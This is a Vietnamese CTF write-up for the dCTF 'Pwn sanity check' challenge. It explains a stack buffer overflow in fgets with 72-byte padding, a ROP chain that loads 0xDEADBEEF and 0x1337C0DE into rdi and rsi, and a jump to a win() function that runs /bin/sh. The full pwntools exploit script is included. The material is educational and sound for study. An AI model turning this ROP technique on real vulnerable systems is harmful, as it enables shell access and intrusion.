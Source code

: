 ![pinch_me](C:\Users\vietd\OneDrive - actvn.edu.vn\MyWriteUp\VietAT16-Task_KCSC\dCTF\pwn\Pwn sanity check\imgs\pinch_me.png)

Dùng ida và thấy 4 hàm ![funcs](C:\Users\vietd\OneDrive - actvn.edu.vn\MyWriteUp\VietAT16-Task_KCSC\dCTF\pwn\Pwn sanity check\imgs\funcs.png)

Hàm **main** set alarm 10s thì đóng program và gọi hàm **vuln()** ![main](C:\Users\vietd\OneDrive - actvn.edu.vn\MyWriteUp\VietAT16-Task_KCSC\dCTF\pwn\Pwn sanity check\imgs\main.png)

Useless **shell()** func:

![bof](C:\Users\vietd\OneDrive - actvn.edu.vn\MyWriteUp\VietAT16-Task_KCSC\dCTF\pwn\Pwn sanity check\imgs\bof.png)

hàm **vuln** có `fgets` nên ta có thể bof đến hàm **win** đc

bạn có thể dễ dàng tìm đc padding = 'A' * 72

Pseudocode: 

```c
int __fastcall win(int arg0, int arg1)
{
  int result;
  result = puts("you made it to win land, no free handouts this time, try harder");
  if ( arg0 == 0xDEADBEEF )
  {
    result = puts("one down, one to go!");
    if ( arg1 == 0x1337C0DE )
    {
      puts("2/2 bro good job");
      system("/bin/sh");		// your target
      exit(0);
    }
  }
  return result;
}
```

Vậy payload = 'A' * 72 + win_addr + ret_addr +'\xef\xbe\xad\xde' + '\xde\xc0\x37\x13'. Nếu là file 32b thì payload là thế, nhưng đây là file 64b- 2 arg ko đc lấy từ stack mà từ 2 registers **rdi** và **rsi** 

![64](C:\Users\vietd\OneDrive - actvn.edu.vn\MyWriteUp\VietAT16-Task_KCSC\dCTF\pwn\Pwn sanity check\imgs\64.png)

Mình sẽ dùng ROPgadget để tìm code asm có pop rdi; pop rsi để đẩy 2 arg từ stack vào rdi và rsi

![rop](C:\Users\vietd\OneDrive - actvn.edu.vn\MyWriteUp\VietAT16-Task_KCSC\dCTF\pwn\Pwn sanity check\imgs\rop.png)

--> **payload = 'A'*72 + pop_rdi_ret + '\xef\xbe\xad\xde' + pop_rsi_r15_ret  + '\xde\xc0\x37\x13'+'\x00'  + win_addr**. Mình thêm '\x00' do sau khi pop rsi thì ta còn pop r15 nữa nếu ko sẽ đẩy win_addr khỏi stack vào r15 là khỏi chơi

Ban có thể dùng pwndbg để xem code và stack [nói dông dài ko = vứt cái ảnh trực quan]

![gdb](C:\Users\vietd\OneDrive - actvn.edu.vn\MyWriteUp\VietAT16-Task_KCSC\dCTF\pwn\Pwn sanity check\imgs\gdb.png)

```python
# xpl.py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

exe = './pwn_sanity_check'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'

win_addr = elf.symbols.win
pop_rdi_ret = 0x0000000000400813
pop_rsi_r15_ret = 0x0000000000400811

io = start()
payload = flat({
    72: [
        pop_rdi_ret,
        0xdeadbeef,
        pop_rsi_r15_ret,
        0x1337c0de,
        0x0,
        win_addr
        ]
})

write('payload1', payload)
io.sendlineafter("tell me a joke\n", payload)
```

![flag](C:\Users\vietd\OneDrive - actvn.edu.vn\MyWriteUp\VietAT16-Task_KCSC\dCTF\pwn\Pwn sanity check\imgs\flag.png)

